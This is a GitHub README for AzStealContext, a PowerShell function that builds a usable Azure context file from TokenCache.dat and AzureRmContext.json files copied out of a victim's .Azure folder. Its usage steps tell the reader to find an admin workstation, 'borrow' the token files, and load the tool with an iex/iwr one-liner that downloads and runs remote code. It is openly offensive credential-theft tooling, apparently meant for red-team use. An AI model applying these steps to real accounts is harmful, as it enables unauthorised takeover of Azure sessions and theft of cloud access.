 # AzStealContext

A PowerShell function that automates the process of stealing the Azure context of a users .Azure folder. 

When a user authenticates using the Az PowerShell module a `.Azure` folder is created in the users home folder. This folder contains multipele files including the `AzureRmContext.json` and `TokenCache.dat` files. These files contain all the information a attacker needs to create a 'context file' which is equivalent of the output from the [`Save-AzContext`](https://docs.microsoft.com/en-us/powershell/module/az.accounts/save-azcontext?view=azps-4.6.1) command. This PowerShell function automates the process a attacker would need to take to create a 'context' file.

The AzureRmContext file can have multiple 'contexts'. This happens when the `Connect-AzAccount` is run multiple times by the same user with different Azure credentials. This function will verify if there are multiple contexts and if so, will ask you which one to use as the default context. 


## Usage
1. Find a Admin workstation / Userprofile that has the `.Azure` folder.
2. 'Borrow' the `TokenCache.dat` and `AzureRmContext.json` files.
3. Load this function. `iex((iwr https://raw.githubusercontent.com/justin-p/AzStealContext/master/Invoke-AzStealContext.ps1).content)`
4. Run the function
   - To prepare a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files'`
   - To prepare and Import a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext`
   - To prepare a AzContext file and overwrite a existing OutFile: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext -Force`
   - To change the default OutFile name `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -OutFile 'CustomFilename.json'`
   
# Contributing

Feel free to open issues, contribute and submit your Pull Requests. You can also ping me on Twitter (@JustinPerdok)
